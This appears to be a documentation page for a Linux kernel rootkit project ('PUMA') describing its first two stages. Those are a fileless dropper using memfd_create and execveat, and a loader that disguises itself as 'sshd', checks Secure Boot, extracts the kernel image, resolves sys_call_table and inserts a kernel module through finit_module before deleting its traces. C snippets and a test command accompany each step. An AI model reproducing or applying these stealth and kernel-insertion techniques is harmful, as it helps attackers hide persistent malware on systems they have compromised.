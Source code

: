 ```yaml
---
title: "Fileless Dropper & Rootkit Loader"
description: "Stages 1 & 2: in-memory payload staging and LKM insertion"
icon: "cloud_download"
date: "2025-05-11T18:15:00+01:00"
lastmod: "2025-05-11T18:15:00+01:00"
draft: false
toc: true
weight: 10
---
```


# Stage 1: Fileless Memfd Dropper

{{< alert context="info" icon="⚙️" text="We stage both loader and cron stub entirely in memory--no on-disk binaries." />}}

1. We call  
   ```c
   fd_loader = memfd_create("loader", MFD_CLOEXEC);
   fd_target = memfd_create("target", MFD_CLOEXEC);
   ```
   to get two anonymous file descriptors.
2. We `write()` our embedded ELF blobs into each fd.
3. We `fork()`:
   - **Child**: redirect stdout/stderr to `/dev/null`, then
     ```c
     execveat(fd_loader, NULL, argv_loader, envp, AT_EMPTY_PATH);
     ```
   - **Parent**: `waitpid()`, then
     ```c
     execveat(fd_target, NULL, argv_target, envp, AT_EMPTY_PATH);
     ```


`execveat(..., AT_EMPTY_PATH)` lets us execute a program by FD without any filename on disk.

---

# Stage 2: Environment-Aware Loader

{{< alert context="warning" icon="🔍" text="We verify Secure Boot is off, extract the kernel image, resolve symbols, and then insert our LKM." />}}

1. We rename our process to "sshd" via  
   ```c
   prctl(PR_SET_NAME, "sshd", 0, 0, 0);
   ```
2. We scan `dmesg` for "Secure boot" strings. If found, we abort.
3. We drop a helper script `/tmp/loader.sh` that:
   - Uses `file` + `grep` to detect gzip/xz/bz2/lz4/zstd.
   - Runs `tail -c +<offset>` + the right decompressor → `/tmp/vmlinux`.
4. In `loader.c`, we open `/tmp/vmlinux` and call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
5. We load our kernel module by creating another memfd for `puma.ko` and calling:
   ```c
   finit_module(fd_puma_ko, "", 0);
   ```
6. Finally, we remove `/tmp/loader.sh` and `/tmp/vmlinux`.

---

## Code Locations

- `rootkit/dropper/dropper.c`  
- `rootkit/loader/loader.c` & `rootkit/loader/loader.sh`

## Quick Test

```bash
./rootkit/dropper/cron
dmesg | grep "PUMA is compatible"
dmesg | grep "PUMA loaded"
```